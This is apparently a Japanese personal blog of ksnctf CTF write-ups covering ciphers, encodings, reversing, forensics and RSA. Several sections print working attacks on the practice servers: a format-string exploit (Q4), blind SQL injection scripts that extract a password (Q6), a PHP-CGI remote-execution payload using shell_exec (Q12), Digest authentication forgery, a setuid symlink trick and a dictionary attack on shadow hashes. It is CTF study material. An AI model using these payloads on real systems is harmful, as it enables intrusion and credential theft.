ksnctfで学んだことを自分用にまとめておきます。

## はじめに

こんにちは、IKです。

自分が学んだことを文書として記録しておこうと考え、記述します。

今回から新しく\[note]という形を取り、自分用にまとめていくというカテゴリーを作りました。

問題で学んだことを簡単に書いて行こうと思います。

もしかしたら、誰かの役に立つかもしれません。

よろしくお願いします。

---

## 環境

| 筆者の環境 |                                          |
| ----- | ---------------------------------------- |
| OS    | macOS arm64                              |
| SoC   | Apple M3                                 |
| CTF   | [ksnctf](https://ksnctf.sweetduet.info/) |


---

## Q1 「Test Problem」



今回は、[ksnctf](https://ksnctf.sweetduet.info/)という常駐CTFを進めていきます。

常駐CTFはまだ制覇したことがないため、SECCON Beginners 2024までに制覇するのが目標です。

どのCTFもテストプログラムがあるでしょうから、そこの欄は意気込みなどを書いていきたいと考えています。

では、始めていきましょう！

---

## Q2 「Easy Cipher」



ドットやカンマが入っている文章なのでシーザー暗号っぽいですね。

下記のサイトを使って突破しました。東京電気大学さんありがとうございます。

[シーザー暗号解読機](http://www.net.c.dendai.ac.jp/crypto/caesar2.html)


---

## Q3 「Crawling Chaos」


unya ?? → 「うにゃ」

「うにゃ」というばこれですね。ソースコードのヘッダ内にやっぱりありました。

[(」・ω・)」うー!(/・ω・)/にゃー!encode](https://sanya.sweetduet.info/unyaencode/)

デコードすると、unicodeとjavascriptのコードが現れました。

「\\u0024\\u0028」この形はunicodeエスケープシーケンス。下記サイトで文字列に変えました。

[Unicode Escape Sequence | KWONLINE.ORG](https://www.kwonline.org/u_esc_seq.php)

完全なjavascriptコードに直して、あとはアルゴリズムを確認するだけですね。

重要だったのは、`charCodeAt` と `fromCharCode` でした。

- `charCodeAt` は 文字からUTF-16コードへ
- `fromCharCode` はUTF-16コードから文字へ

---

## Q4 「Villager A」



SSH系ですね。300ptの問題ということで相当難しいでしょう。

今回はかなりwriteupにお世話になりました。

長い工程となるため、断片的に学んだことを記述していきます。

「q4」という実行ファイルがあり、`cat`コマンドで中身を覗いてみましたが難読化のようなものされていました。

「q4」に対して、`strings`コマンドを使用してみました。

[`strings`コマンドとは](https://www.ibm.com/docs/ja/aix/7.1?topic=s-strings-command)、ファイル内の印刷可能文字列を検出するコマンドです。

特に有用な文字列を得ることはできませんでした。

次に、逆アセンブルを行いました。

```shell
objdump -d -M intel ./q4
```

[`objdump`コマンドとは](https://www.ibm.com/docs/ja/sdk-java-technology/8?topic=techniques-using-system-dump-tools)、共有オブジェクトおよび共有ライブラリーを逆アセンブルするために使用するコマンドです。

`-d`は逆アセンブルを意味しています。

`-M intel`はアセンブリ言語の表記をインテル形式に指定しています。デフォルトでは、 AT&T 形式らしいです。

アセンブリ言語の量が多いので`fopen`という単語で正規表現をかけてみます。

```shell
objdump -d -M intel ./q4 | grep fopen
```

[`fopen`とは](https://www.ibm.com/docs/ja/i/7.3?topic=functions-fopen-open-files)、単純に指定されたファイルを開く関数です。

どうやら<u>書式文字列攻撃</u>というのを使うらしいです。

前提知識として、

```shell
echo -e "ik" | ./q4
```

`echo`と実行ファイルをパイプでつなげることで実行ファイルに値を入力することができます。

```shell
[q4@eceec62b961b ~]$ echo -e "abcd %x %x %x %x %x %x %x" | ./q4
What's your name?
Hi, abcd 400 f7cdf580 ffc7ed38 6 0 64636261 20782520
```

書式文字列攻撃を試してみました。

`%x`はスタックから変数を受け取るとるという意味です。

`printf("%s",str)`ではなく、`print(str)`としてしまうことで発生する脆弱性のようです。

入力した情報がメモリ上の6番目にあることがわかります。abcd → 64636261

リトルエンディアンなので、反転しています。

今回の解法を簡単に言うと、実行ファイルの序盤に実行される関数（文字入力後）の呼び出し先のアドレスを、`fopen`が実行される関数内のアドレスに変更したいということです。

本来は、`0x080499e0`を参照するのが正しい処理ですが、それを`fopen`が実行される関数内のアドレスである`0x08048691`に変更したいということです。

- 実際の書式文字列攻撃のコマンド
```shell
echo -e "\xe0\x99\x04\x08%134514317x%6\$n" | ./q4
```

「%i(i:整数値)\$nを使うと、i番目のスタックに格納されている値が示すアドレスに、現在printfで表示されている文字数が4バイト整数値として書き込まれる。」<br>[ksnctf #4 Villager A　初めての書式文字列攻撃。](https://linuxnosusume.blogspot.com/2017/12/ksnctf-4villager-a.html)

とのことなので、メモリの6番目（`%6`）に格納されているアドレス`\xe0\x99\x04\x08`に、現在、`printf`で表示されている文字数（`%j（j：整数値）x` → `%134514317x` 13451431文字分のスペース）が、4バイト整数値（アドレス）として書き込まれる。<br>※ すでに「Hi, ?」で4文字分出力されているため、`0x08048691`を10進数にした値である`134514321`から4を減算した分のスペースを出力しています。

Flagを得ることができました。

アセンブリ言語のメモリ構造などを理解していない私にとっては難しすぎました。

writeupを使って解いて、理解しましたが、かなりふわふわとした理解です。

間違っている部分もあるかもしれません。

まあでも、勉強になったので良しです。

下記が今回かなり参考にしたサイトです。ありがとうございました！

[ksnctf 4 Villager A 300pt](https://qiita.com/samohan/items/779699e2381c38285795)<br>
[ksnctf #4 Villager A](https://tmsk8219.hatenablog.com/entry/2016/06/15/180639)<br>
[ksnctf #4 “Villager A”を解く](https://tomomon.jp/programming/ksnctf4/)<br>
[ksnctf #4 Villager A　初めての書式文字列攻撃。](https://linuxnosusume.blogspot.com/2017/12/ksnctf-4villager-a.html)

---

## Q5 「Onion」



Onion? 

OnionといえばTorだが、Torみたいに何重にも暗号化されているということかな？

文字列の並び的にBase64っぽいし、Base64で16回デコードしたら、こんな文字列が、

```
begin 666 <data>
51DQ!1U]&94QG4#-3:4%797I74$AU
 
end
```

begin 666 で調べたら、Base64の一つ前の形式であるuuencodeなるものらしい。

下記サイトを使って、デコードしてFLAGを得ることができました。

[uuencode方式エンコード、デコード変換](https://www.motohasi.net/Misc/UUConv.php)

こうやって、いろんな形式のエンコードやデコードをするサイトを提供してくれる方には感謝しかないですね。

---

## Q6 「 Login」



早速、URL先に飛びました。

「First, login as "admin".」ということで、見るからにSQLインジェクションですね。

ということで初っ端から、

`ID：admin , Pass：' or 1=1 --`  を入力してみました。

すると、「Congratulations!　It's too easy?　Don't worry.　The flag is admin's password.」 と言われました。

adminのパスワードがFlagのようですね。

手順として、下記を考えました。

1. adminのパスワードの文字列を特定 
2. adminのパスワードを一文字目から一文字ずつ特定

ということで、まず一つ目の手順を達するためにコードを書きました。

- adminのパスワードの文字数を確認
```Python
import requests

url = 'https://ctfq.u1tramarine.blue/q6/'

# 文字数を確認
for i in range(30):
    sql = f"' or (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {i} --"
    print(sql)
    data = {"id": "admin", "pass": sql}
    response = requests.post(url,data=data)
    if 'Congratulations' in response.text:
        print("文字列 → " + str(i))
        break
```

次に二つ目の手順を達するためのコードを書きました。

- adminのパスワードを一文字目から一文字ずつ特定
```Python
# 1文字ずつ確かめる
checkString = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
flag = ''

for i in range(1,22):
    for k in checkString:
        # なぜか SUBSTRING では動かない
        # SUBSTRING ( expression, start, length )  
        sql = f"' or (SELECT substr(pass, {i}, 1) FROM user WHERE id = 'admin') = '{k}' --"
        data = {"id": "admin", "pass": sql}
        response = requests.post(url,data=data)
        if 'Congratulations' in response.text:
            flag += k
            print(flag)
            break
```

Flagを得ることができました。

余談ですが、`SUBSTRING`で動くかなと思いましたが、なぜか動きませんでした。なぜだろう...

---

## Q7 「Programming」



C++ファイルが一つ。

開いてみるとスペースやタブを使って難読化されたコードが有りました。

とりあえず、スペースとタブをすべて取り除いてフォーマットしてみました。

```cpp
#include <stdio.h>    
#include <string.h>	
	
int main(){
    // F
	const char *s ="     	    ""0123456789""     ""		   "
	"			         							  				 			 ""ABCDEFGHIJ";
	printf("%c",strlen(s));
	// ROG
	int i = 020000000+001000000+000600000+000040000+000007000+000000500+000000020+000000002-000007006;
	printf("%s",&i);
   	// _This_i
	long long l = 2LL*11LL*229LL*614741LL*9576751LL+5LL;
    printf("%s",&l);
    // s_w
	float f	= 1.0962664770776731080774868826855754386638240000e-38f;
    printf("%s",&f);
    // rong_:(
	double d = 6.7386412564254706622868098890859398199406890000e-308;
	printf("%s",&d);
}
```

実行してみると、「FROG_This_is_wrong_:(」と出力されました。

そこから、ROGをLAGにして、その数値の変化を他のものにも当てはめてみたりと色々試行錯誤しましたが、残念届かず...

ここで止まってしまいました。

結果的には、Whitespace という空白文字だけで構成されるプログラミング言語らしいですね。

序盤にすべて取り除いている... :(

下記のサイトを利用して Whitespace を実行することができました。

[Whitelips the Esoteric Language IDE](https://vii5ard.github.io/whitespace/)

PINなるものを要求されたので右の欄（アセンブリかな？）のそれっぽい文字を入れることでFlagを得ることができました。

下記が参考にしたサイトです。ありがとうございました。

[ksnctf 7 Programming 110pt](https://qiita.com/samohan/items/766deca6f39c37122c0e)


---

## Q8 「Basic is secure?」



お、pcapファイルだ。

ネットワークのパケットをキャプチャしたログが入っているファイルですね。

早速、Wiresharkでみたところ、HTTPでBASIC認証を行っておりパスワード（Flag）を平文で見ることができました。

---

## Q9 「Digest is secure!」


お、pcapファイルだ。

前はBasic認証でパスワードを平文で得ることができましたが、今回は問題名からDigest認証っぽいですね。

Digest認証とは、「ユーザ名とパスワードを暗号学的ハッシュ関数でハッシュ（ダイジェスト）化して送る。Basic認証では防げなかった盗聴や改竄を防ぐために考案された。」（[Wikipedia](https://ja.wikipedia.org/wiki/Digest%E8%AA%8D%E8%A8%BC)）ということで、確かにsecureですね。

おそらく方針としては、パケットログからダイジェスト認証でクライアントが送信するハッシュ値を探して、それのハッシュ値を解読する流れですかね。

早速、pcapファイルの中身を見てみました。

3ウェイ・ハンドシェイク → HTTP GET → 401（Unauthorized） → サーバがハッシュ化に必要な情報を提供 → クライアントがハッシュ値（response）を送信 → ダイジェスト認証成功！

という流れでした。

アクセス先は`https://ctfq.u1tramarine.blue/q9/`ここですね。

- 実際のログ
```
Authorization: Digest username="q9", 
realm="secret", 
nonce="HHj57RG8BQA=4714c627c5195786fc112b67eca599d675d5454b", 
uri="/q9/", 
algorithm=MD5, 
response="26c8019eb6f7f41b9c14b4cbda48ab2e", 
qop=auth, 
nc=00000002, 
cnonce="656335d78cef6e86"\
```

ハッシュ関数が危殆化しているMD5ということがわかりましたね。

あとは、ここのハッシュ値、`response="26c8019eb6f7f41b9c14b4cbda48ab2e"`を解析できればFlagを得ることができそうです。

Digest認証のresponseの作成方法はこちらです。（[Wikipedia](https://ja.wikipedia.org/wiki/Digest%E8%AA%8D%E8%A8%BC)）
```
A1 = ユーザ名 ":" realm ":" パスワード
A2 = HTTPのメソッド ":" コンテンツのURI
response = MD5( MD5(A1) ":" nonce ":" nc ":" cnonce ":" qop ":" MD5(A2) )
```

まず、危殆化されたハッシュ関数MD5ということでhashtoolkitというサイトを使って複合しようと思ったのですが...



hashtoolkit死んでる...

え、いつから... どうしよ...

ここで数多のWriteupを見ましたが、大体の方がhashtoolkitを使われて解かれているのでどうしようかと思っていたら...

見つけました。救世主を。

下記のWriteupの方が道筋を示してくれました。ありがとうございます。

[ksnctf: #9 digest is secure!](https://vintersnow.github.io/ctf/ksnctf_digest_is_secure/)

なるほど、htdigestをユーザが覗いているから重要なA1の部分のハッシュ値を得ることができるのか！おそらくこっちが正攻法ですね。

で、htdigestってなんだろうと思い調べてみました。

ダイジェスト認証に必要なユーザ名とパスワードを管理するツールらしいですね。（それを見ることで重要なハッシュ値を得れてしまうというのはどういうこと？）

ということで、重要な部分を得ることが得できました。



MD5(A1) = c627e19450db746b739f41b64097d449 

と、わかりました。

A2も算出することができます。（ログファイル内に`<p>The flag is <a href="flag.html">here</a>.</p>`とありました）

A2 = GET:/q9/flag.html

MD5(A2) = 9e2b6bca5d4d92f6ead358623df264c8

下記のツールを使用しました。ありがとうございます。

[ＭＤ５ハッシュ計算ツール - phpspot](https://phpspot.net/php/pg%EF%BC%AD%EF%BC%A4%EF%BC%95%E3%83%8F%E3%83%83%E3%82%B7%E3%83%A5%E8%A8%88%E7%AE%97%E3%83%84%E3%83%BC%E3%83%AB.html)

実際に当てはめます。

response = MD5( MD5(A1) ":" nonce ":" nc ":" cnonce ":" qop ":" MD5(A2) ) 

response = MD5(c627e19450db746b739f41b64097d449:"nonce":"nc":"cnonce":auth:9e2b6bca5d4d92f6ead358623df264c8)

あとは、nonce、nc、cnonceを当てはめてハッシュ化するだけですね。

BurpSuiteを使いましょう。

- 私の場合、このようになりました。
```
Digest username="q9", 
realm="secret", 
nonce="vfxP3XAaBgA=d8ef7afa319e3312e29656cab349cd617c14586f", 
uri="/q9/flag.html", 
algorithm=MD5, 
response="9ac2149aa735fa969a052b570dc61671", 
qop=auth, 
nc=00000002, 
cnonce="2a068655518788a7"
```

responseを作成します。

response = MD5(c627e19450db746b739f41b64097d449:vfxP3XAaBgA=d8ef7afa319e3312e29656cab349cd617c14586f:00000002:2a068655518788a7:auth:9e2b6bca5d4d92f6ead358623df264c8)

responseを改ざんすることで、Flagを得ることができました。

---

## Q10 「#! 」



「#!」← これの名前を聞いているんですかね？

Pythonの先頭の行に使うこれ。

名前は「Shebang」というらしいです。

Unix系システムにおいて、ファイルに書かれたプログラム文をどの実行ファイルで実行するのかという指定らしいですね。

---

## Q12 「Hypertext Preprocessor」



Hypertext Preprocessor → php ということで、php の脆弱性に由来するものかなと予想。

リンクを開いてみると時刻が赤字で表示されているだけでした。

ここで悩んでいると、CTF友達 I が横から乱入してきました。

「このサイトが参考になる」ということで、下記のサイトを紹介されました。

[CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823)](https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)

徳丸さんの日記で、CGI版PHPのスクリプト実行の脆弱性について紹介されていました。

一応、[CGIとは](https://e-words.jp/w/CGI.html)

なるほど、これを使えば良いのかということで、

BurpSuiteを起動！Repeaterを起動！

GET から POST に変更して、

URL 
```
/q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input
```
Content
```
<?php echo shell_exec('cat index.php'); ?>
```

[shell_exec](https://www.php.net/manual/ja/function.shell-exec.php) とは「シェルによりコマンドを実行し、文字列として出力全体を返す」PHPの関数ですね。

「Flag is in this directory.」ということのようなので ls を使ってみましょう。

Content
```
<?php echo shell_exec('ls'); ?>
```

それらしきファイルがあり、フラグを得ることができました。

徳丸さんに感謝。

---

## Q13 「Proverb」



SSHで対象のサーバにログインしてアレコレするタイプですかね。

とりあえず、ログインしました。

``` bash
This server will destruct in 10 minutes.
Keep your progress by yourself.
[q13@3ed4c56443e4 ~]$ ls -lta
total 52
dr-xr-xr-x 1 root root  4096 Feb 25  2021 .
-rw-r--r-- 1 q13  q13    543 Feb 25  2021 .bashrc
-r-------- 1 q13a q13a    22 Feb 25  2021 flag.txt
---s--x--x 1 q13a q13a 24144 Feb 25  2021 proverb
-r--r--r-- 1 q13a q13a   755 Feb 25  2021 proverb.txt
drwxr-xr-x 1 root root  4096 Feb 25  2021 ..
-rw-r--r-- 1 q13  q13     18 Jul 21  2020 .bash_logout
-rw-r--r-- 1 q13  q13    141 Jul 21  2020 .bash_profile
[q13@3ed4c56443e4 ~]$ pwd
/home/q13
```

このような感じでした。

「flag.txt」に答えがありそうですが、読む権限が所有者しかありませんね。

ちなみにですが、`rwx rw- r--` は所有者、グループ、その他のユーザの順で権限が表示されています。

`ls -lta` の `-lta` は `l` はファイルの詳細情報を表示、`t` はファイルを更新順でソート、`a` は隠しファイルも表示という意味です。

`proverb.txt`を開くとことわざが一覧で入っており、

実行ファイル`proverb`を実行すると`proverb.txt`の中のランダムな一列を出力するというものでした。

ここで止まってしましました。

結論として、自分（q13）が権限を持っているフォルダ（tmp）に行き、

実行ファイル`proverb`の参照先のファイル`proverb.txt`をシンボリックリンクで`flag.txt`に置き換えるというものでした。

下記が参考にしたサイトです。ありがとうございました。

[ksnctf #13 Proverb](https://qiita.com/NakashimaKenta/items/ce0bcea7ca16053bbb6e)

余談ですが、10分でサーバ初期化されてしまうのが大変でした。

色々試行錯誤しているとすぐに10分経ってしまいます。

---

## Q14 「John」



John ということで [John the ripper](https://www.openwall.com/john/) を使うやつだろうという予測。

user99に 「SHA512 is strong」 と 「Dictionary is here URL」という文字がありました。

なるほど、John the ripperを使ってUNIX形式のshadowファイルに対して辞書攻撃をするということか

早速、Jon the ripper（john-jumboの方）の使い方を調べて使ってみました

- shadow.txt → /etc/shadow 形式のファイル
- dictionary.txt → 辞書攻撃に使用するパスワードリスト

```
john shadow.txt --wordlist=dictionary.txt
john --show shadow.txt
```

あとは縦読みです。

いくら強力なSHA512といえども、辞書攻撃で破られてしまうような簡単なパスワードでは意味がないということがよくわかりました。

余談ですが、MacにJohn the ripperが入っていなかったため、brewでインストールしようとしたら「john」「john-jumbo」と２つあり悩みました。

「john」が公式のものであり、「john-jumbo」はコミュニティが開発している拡張版らしいですね。

あと、こういうツールを使うときは使い方に細心の注意を払わないと行けないですね。

---

## Q16 「Math I」



これ、RSA暗号ですね。最近やってたのでわかりました。

ショアのアルゴリズムで素因数分解したと書かれています。

おかしいですね、ショアのアルゴリズムを動かすことのできる量子コンピュータ（量子チューリングマシン）はこの世に無いはずなのに...

とりあえず、解きましょう。

ちょうど、RSA暗号のアルゴリズムを勉強したばかりです。

[RSA暗号の仕組み](https://ikbase.net/blog/2024/05/26/rsa/)

秘密鍵 d を求めれば平文 m を複合することができそうですね

では、コードを書きましょう。

```python
import math

e = 65537
n = "長いので省略"
c = "長いので省略"
p = "長いので省略"
q = "長いので省略"

# 最小公倍数
def lcm(x, y):
    return (x * y) // math.gcd(x, y)

# 拡張ユークリッドの互除法
def extended_gcd(a, b):
    if a == 0:
        return b, 0, 1
    else:
        gcd, x, y = extended_gcd(b % a, a)
        return (gcd, y - (b // a) * x, x)

d = extended_gcd(e,lcm(p-1,q-1))[1]
m = pow(c,d,n)

# ゼロ埋めして512桁の16進数文字列に変換
hex_string = "%0512x" % m 
# 16進数文字列をバイトにデコード
bytes_data = bytes.fromhex(hex_string)

print(bytes_data)
```

長いので省略しましたが、変数には問題文にある数値を入れてください。

Flagを得ることができました。

余談ですが、最初はNumpyのpowerという関数で指数計算をしたのですが、何分経っても終わりませんでした。

powはべき剰余計算が得意らしいですね。

---

## Q17 「Math II」



まあ、とりあえずM3に任せてゴリ押ししてみるよね。

無理だよね。

どうやら二分探索を使うのが正攻法らしいです。

``` python
x = "長すぎるので省略"

lo = 0
hi = 10**100

while True:
    md = (lo + hi) // 2
    print(md)
    if md**101 > x:
        hi = md - 1
    elif md**101 < x:
        lo = md + 1
    else:
        print("--- Flag ---")
        print("FLAG_" + str(md))
        break
```

time.sleep(0.05)を入れると二分探索の偉大さがよくわかりました。

下記が参考にしたサイトです。ありがとうございました。

[ksnctf Q17 mathII](https://kaffebreak.github.io/blog/ksnctf-Q17-mathII.html)

---

## Q18 「USB flash drive」



Flagを探せと、drive.zip を解凍してみたら、imgファイルを得ることができました。

imgファイルの中身は3つのjpgファイル。

画像も特に違和感なく、バイナリも見ましたが普通の JFIF で始まるjpgファイルでした。 

ここで止まってしまいました。

writeupによるとimgファイルの解析を行う必要があるようです。

[The Sleuth Kit](https://www.sleuthkit.org/sleuthkit/)をインストールして解析してみました。

`fls drive.img` でdrive.img内を見ることができるようです。

結果
```
r/r 4-128-4:	$AttrDef
r/r 8-128-2:	$BadClus
r/r 8-128-1:	$BadClus:$Bad
r/r 6-128-4:	$Bitmap
r/r 7-128-1:	$Boot
d/d 11-144-4:	$Extend
r/r 2-128-1:	$LogFile
r/r 0-128-1:	$MFT
r/r 1-128-1:	$MFTMirr
r/r 9-128-8:	$Secure:$SDS
r/r 9-144-11:	$Secure:$SDH
r/r 9-144-5:	$Secure:$SII
r/r 10-128-1:	$UpCase
r/r 3-128-3:	$Volume
r/r 35-128-1:	Carl Larsson Brita as Iduna.jpg
r/r 37-128-1:	Mona Lisa.jpg
r/r 38-128-1:	The Great Wave off Kanagawa.jpg
-/r * 36-128-1:	Liberty Leading the People.jpg
-/r * 36-128-4:	Liberty Leading the People.jpg:00
-/r * 36-128-5:	Liberty Leading the People.jpg:01
-/r * 36-128-6:	Liberty Leading the People.jpg:02
-/r * 36-128-7:	Liberty Leading the People.jpg:03
-/r * 36-128-8:	Liberty Leading the People.jpg:04
-/r * 36-128-9:	Liberty Leading the People.jpg:05
-/r * 36-128-10:	Liberty Leading the People.jpg:06
V/V 256:	$OrphanFiles
```

先程見た画像ファイル3つの他にもう一つファイルが有るようです。

見てみましょう。

```
icat drive.img 36 > 36.jpg
```

画像内には、「The flag is in this file , but not in this image. 」 と書いてありました。

ということでバイナリを見てみましたが、FLAGはありません。

結果的には、36-128-1 ~ 36-128-10 と分かれていることに目をつけて、icat で1つずつ出力することでFLAGを得ることができました。

下記コマンドを10まで行ってみる。

```
icat drive.img 36-128-4
```

今回は全く歯が立ちませんでした。

下記が参考にしたサイトです。ありがとうございました。

[ksnctf #18 USB flash drive](https://qiita.com/NakashimaKenta/items/238395dadf08eade3c60)

---

## Q19 「ZIP de kure」

